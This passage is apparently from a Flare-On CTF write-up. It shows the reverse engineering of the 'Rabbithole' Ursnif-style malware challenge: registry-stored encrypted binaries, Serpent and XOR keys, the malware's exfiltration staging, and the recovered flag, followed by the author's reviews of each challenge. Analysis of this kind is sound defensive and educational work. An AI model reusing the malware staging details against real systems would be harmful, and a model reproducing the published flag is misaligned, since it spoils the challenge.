### Part 2 - A clown car with binaries

After everything was set up properly, the binary now started to do a _LOT_ more. TimerPro was read, and the some of the other entries there were read out too. It was only now that I realized that the various entries inside `Columncurrent` and `Languagetheme` actually were *very* long. And these were actually read - and somehow executed - by our original binary. Time to extract these and figure out what they're doing.

I never figured out the exact details of the encryption used, but the RSA key from the original binary, stored as `CRC_PUBLIC_KEY`, could be decrypted using the Serpent-CBC and the key "90982d21090ef347" (literal string, not decoded as hex). This RSA key somehow decrypted a per-data-chunk Serpent-CBC key, which could be used to decrypt a given chunk read from the registry. By abusing direct memory addressing, I was able to call this decrypt function myself, with custom parameters, and use it to decrypt all the various entries found in `Columncurrent` and `Languagetheme`. These could be decompressed using AP32, by ignoring the first 20 bytes or so.

All of these decrypted and decompressed chunks, apart from 2, started with the header `PX`, and somehow rebuilt themselves into working binaries. Reading a bit about Ursnif, shows that the later forks of it use this PX-format as some packed binary format. Luckily, [someone had written a parser](https://github.com/hasherezade/funky_malware_formats/) for these files. After unpacking them and rebuilding the headers, we are left with... 35 binaries. **Thirty-five**. Luckily, some of them seem to be duplicates, and some are just troll binaries with poems or taunts inside them.

```bash
$ sha1sum *exe | sort
0291feebe50dfb84145a6740dd64c5ec56ed14c7 *Languagetheme-PrintsolutSavetheme.dat.exe
21c8a786fed56763b9378872410a6e460c36e50e *Columncurrent-ProtocolmagicWordeskt.dat.exe
226aed4d0d942e6fc5745c106931767eba344b76 *Columncurrent-WebmodeThemearchive.dat.exe
28e80f46dedaac716b1b3c40a176bee8daf52c51 *Languagetheme-RowmapGuiprotocol.dat.exe
49b70585c48871420124d2656c646d5bcbf69105 *Columncurrent-SoflogicMagiclink.dat.exe
539316b7ad9637351e9310b7a4001a55a84b16ed *Languagetheme-DatethrWorkscreen.dat.exe
59b158e47b34fe21f247b8365c05f99cd7cc4bd4 *Columncurrent-ScreenserProtocolacces.dat.exe
702a76d936cfdcd520ca93ba4ab4d554055de714 *Columncurrent-CaclibRegionmap.dat.exe
702a76d936cfdcd520ca93ba4ab4d554055de714 *Columncurrent-ThemespellDaytheme.dat.exe
7662d2047d9ed55e77bd89924df41f661712f482 *Languagetheme-CalccalcLogicnew.dat.exe
7662d2047d9ed55e77bd89924df41f661712f482 *Languagetheme-InfspellTimerver.dat.exe
7662d2047d9ed55e77bd89924df41f661712f482 *Languagetheme-KeyboardtimerWolib.dat.exe
7662d2047d9ed55e77bd89924df41f661712f482 *Languagetheme-NewinRegionsea.dat.exe
7662d2047d9ed55e77bd89924df41f661712f482 *Languagetheme-ProcesscharProtocomedia.dat.exe
7662d2047d9ed55e77bd89924df41f661712f482 *Languagetheme-ThemewebInnet.dat.exe
7662d2047d9ed55e77bd89924df41f661712f482 *Languagetheme-TimerscreenClientsecur.dat.exe
792c9981421296686b106a7b3b0a1e67d8b43871 *Languagetheme-WebsoftwareProcesstemplate.dat.exe
7b35fc69b11a469e4ba185e4aadcf27cd1e53679 *Columncurrent-RowmapGuiprotocol.dat.exe
7faf651e89543367ed152d7cefba5873fd9a9180 *Languagetheme-WebmodeThemearchive.dat.exe
89f5885a73ca3f89d109e32472b4fc33c7115bcd *Columncurrent-PrintsolutSavetheme.dat.exe
8ca0c94deafe795dfa91a89612c0f51e5a371b71 *Languagetheme-CaclibRegionmap.dat.exe
8ca0c94deafe795dfa91a89612c0f51e5a371b71 *Languagetheme-ThemespellDaytheme.dat.exe
9a2164f05f2538cd108fd57bcc708422dc211015 *Columncurrent-CalccalcLogicnew.dat.exe
9a2164f05f2538cd108fd57bcc708422dc211015 *Columncurrent-CalciconLogicthre.dat.exe
9a2164f05f2538cd108fd57bcc708422dc211015 *Columncurrent-DiskproIdbui.dat.exe
9a2164f05f2538cd108fd57bcc708422dc211015 *Columncurrent-InflibExplorertru.dat.exe
9a2164f05f2538cd108fd57bcc708422dc211015 *Columncurrent-TasknetCharconso.dat.exe
9a2164f05f2538cd108fd57bcc708422dc211015 *Columncurrent-TimermagSelink.dat.exe
9c630d129bf27bd05d529d37790b934ec1a86999 *Languagetheme-SoflogicMagiclink.dat.exe
ac06c9c6cf182c3b4bdc280e85b2ebd1945d4e46 *Languagetheme-ProtocolmagicWordeskt.dat.exe
cea77a3caadd7e1c4038c4a835ebdbfabd12d48d *Languagetheme-ScreenserProtocolacces.dat.exe
d8f2a45925983fc108a4f3f024f1375b9f4fe515 *Columncurrent-WebsoftwareProcesstemplate.dat.exe
eb4450960def73e431490d802d232cb1b454b8bc *Languagetheme-WordlibSystemser.dat.exe
f391da61300669019f39def97be7c75e5e590655 *Columncurrent-DatethrWorkscreen.dat.exe
f53b3f996e0a86d96cd1c38145bd3031a018885c *Columncurrent-WordlibSystemser.dat.exe
```

The two decrypted entries that weren't PX binaries were 

- `WordTimer-Main`, which seems to contain some file metadata for a file called `flag.txt`, possibly the raw data from a directory listing.
- `Languagetheme-MonitornewWarningmap`, which contains a lot of weird binary data, followed by some strings like `https://glory.to.kazohinia\x000\x00curlmyip.net\x0012\x00GSPyrv3C79ZbR0k1\x00300\x00300\x00300\x00300\x00300\x001000\x0060\x0060\x0010\x000\x000\x001\x00no-cache, no-store, must-revalidate\x00300000\x0030, 8, notipda\x00480\x00240\x00240\x00`
  - (Spoiler, the weird binary data is input to a VM)
  - The first URL does not exist, but could appear to be a C2 server used for exfiltration. `curlmyip.net` is a website that returns your IP and nothing else.
  - `GSPyrv3C79ZbR0k1` will be important later


Briefly looking through our new host of binaries, my worst nightmares were realized. Each of them are exporting and importing a slew of functions from each other. Which means that in order to reverse this, you have to load multiple binaries into IDA (in the correct order), rebase them properly, and also figure out which binary is mapped to what internal name. On the other hand, doing this properly makes it possible to follow the entire flow when single-stepping in a debugger. One of the modules also depended on `avifil32.dll`, which my system didn't have, so I found a copy from another system first.

The details of what's happening is a bit fuzzy for me, but the gist of it is:

- The binary from `Columncurrent\WordlibSystemser` is extracted and loaded, and the function at 0x00018000BE67 executes its entry point (it's a general entry point loader).
- Same for Columncurrent, WebmodeThemearchive, RowmapGuiprotocol and ProtocolmagicWordeskt.
- The key `WebFalse` is read, plus some other checks. If these do not pass, it assumes that file exfiltration has already happened and stops. If not, it will set some flags here. This is probably to avoid exfiltrating the same data twice. These need to be spoofed/changed, so that the malware believes it is running for the first time.
- The contents of the directory `C:\Users\user\AppData\Local\Temp\rm3.dmp\*.*` is read, and put into a ZIP file.
- That ZIP file is encrypted using Serpent, then XORed with a repeating DWORD key, and stored in some randomly named registry entry (randomly, as in it changes each execution, unlike the entries storing binaries).

One of the only candidates left for the flag to be in, is `Timerpro\DiMap`. The others are already accounted for, or too short to contain a ZIP file. After much single-stepping and swearing, all the paths have been taken in the final VM hidden inside `MonitornewWarningmap`, and the XOR key and serpent key are finally recovered. Now I can XOR `DiMap` with 0xFB307BFA and decrypt the result with Serpent-CBC, using the key `GSPyrv3C79ZbR0k1`. Out pops a ZIP file, which includes a full path to the Desktop, where `flag.txt` resided on the original system. The contents are `r4d1x_m4l0rum_357_cup1d1745@flare-on.com`, and our journey is finally over.


## Afterthoughts

I'd like to thank the respective authors for some good quality challenges this year, and I did learn quite a lot as I went along. I do have some criticism and praise to add at the end though:

- The first few challenges were quite easy, but some had the potential to become much more difficult than intended. Especially `Wednesday`, which had a lot of moving parts. Good idea to hint where people should look, but the code was still quite nasty to wade through, especially for a challenge this early on. It was good to have some game challenges every other challenge, instead of just console applications. Nice pacing, and good mix between fun and challenging.
- `codeit` was a very interesting challenge, in that it had multiple steps that you followed, slowly going from a mess to something readable and understandable through deobfuscation and understanding. This progression felt good. However, the last step to find the username was extremely vague, as there was no indication of your name being wrong, other than that some strange function messed the string up a bit. I've seen a lot of people getting stuck there and just giving up, having the impression that Flare-On is guessy, or requires steganography or whatever.
- `RE Crowd` was a very realistic attack, but once you realized what tools that were in play, it also became much easier to deal with. I'm not sure if this was the intention, but I still really liked this challenge.
- `Aardvark` was too easy. From the challenge description and various internal error states, it looked like making it run should've been the largest problem. But this wasn't hard at all. Once you were past this "barrier", the rest was much easier than `Wednesday`. It felt really out of place. The technique being used is very interesting though! Adding some obfuscation of the ELF, and some minor patch detection, would make this challenge a bit harder. The flag was also really strange here, which led me to believe that I messed up something.
- `Crackinstaller` seemed to have literally just used some existing tool for the loader. If you recognized this, you essentially skipped the first part of the challenge. The mechanism for checking the password also seemed to have been broken for me, which meant I had to reverse an additional cryptographic part to solve it. I'd be happy to know how this was supposed to work, because it really looked like you should give some registry input and get some output, but that just straight up didn't work. Learned a lot about kernel debugging in this one though!
- `Break` was probably my favorite challenge in this. So many memes, so many common RE-challenge-like things to do. Most of them ultimately just led to dead-ends, but it still felt rewarding to go through it all and just discover. The technique of (ab)using ptrace and state machines like this is something I haven't personally seen before, and it forced me to use both static and dynamic debugging to unwrap.
- `Rabbithole` was extremely tedious. Even though I located an older Ursnif code leak, and was able to match a lot of the functions to it, it was just too many binaries, and too many things going on. Throwing a VM in at the end, when I thought I was close to the flag, was just mean.